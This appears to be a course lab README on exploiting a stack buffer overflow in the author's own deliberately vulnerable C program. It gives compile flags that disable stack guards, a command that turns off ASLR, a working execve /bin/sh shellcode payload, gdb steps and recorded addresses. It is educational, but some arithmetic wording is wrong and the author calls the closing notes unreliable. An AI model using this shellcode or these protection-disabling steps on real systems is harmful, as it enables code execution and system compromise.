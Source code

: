 # Lab6

Learn to do a good old overflow.

## Files

* shell.c - a simple example of running a shell code from memory
* vulnerable.c - first version of the program
* mystack.c - the program that will be exploited, same as vulnerable.c, but has
a timeout to allow us to inspect the memory wit `gdb`


## Preparations

### Compilation

The flags are set on the Makefil.

To binary is for 32bit arch, no stack protectors, and executable memory on stack

* `-m32` -> compile for 32bit arch
* `-fno-stack-procetor` -> disable stack guards and whatever
* `-z execstack` -> no W^X limits, any memmory page can be executed

### ASLR

Turn of addres space randomization layout thing

```
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

This will keep the same memory address for our variables and buffers


### Debugger

Use GDB, but with the "[peda](https://github.com/longld/peda.git)" estension.

Installation:

```
git clone https://github.com/longld/peda.git ~/peda
echo "source ~/peda/peda.py" >> ~/.gdbinit
```


## The script

Use `make mys` to compile the program, make sure the lines for the `while` loop
are NOT commented

```
./mys $(python2 -c 'print ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" +"A"*7)')
```

From another terminal run `gdb attach $(which mys)`

Create a break point at the line with `strcpy` e.g. `break mystack.c:14`
Type `continue`

After all the timeout we can look at the *buffer* address `p &buffer`
as well as the EBP address

```
EBP: 0xffffcfd8 --> 0xffffcff8 --> 0x0
$1 = (char (*)[32]) 0xffffcfb0
```

## Target

THe purpose is to find the address of the EBP and `buffer`, compute the difference
between them, to know how much the payload needs to be and overwrite this addresses.

The memory layout is ass fallows:

```
	return address
		old EDP
	calle registers
		buffer
```

What we want is the overwrite the "return address" whit "buffer" address.
But we have to keep the same EDP

If compiled for 32 bit architecture, the difference between the EDB and buffer
should be 0x28 which is 40 in hex. 32 of which is our buffer, so there are 8
bytes left to overwrite.

The "exec.sh" script is calling the `mys` program with the payload:

* the shell code
* a 7 bytes padding to fill up all 32 bytes of the buffer array

Next, we take the addreses of the EDB and buffer and append them to the payload.
The addresses have to be in hex, and because of the way bytes are stored in memory
we write them from write to left.

If the EDP address is "0xffffcfd8" then we write: "\xd8\xcf\xff\xff"


__________

Caution, bad notes ahead:

### Values

first run:

EBP: 0xffffcfd8 --> 0xffffcff8 --> 0x0
$1 = (char (*)[32]) 0xffffcfb0

CFD8 - CFB0 = 40 
40 - 32 = 8 padding

second run:

EBP: 0xffffcfb8 --> 0xffffcfd8 --> 0x0
$1 = (char (*)[32]) 0xffffcf90

CFB8 - CF90 = 40
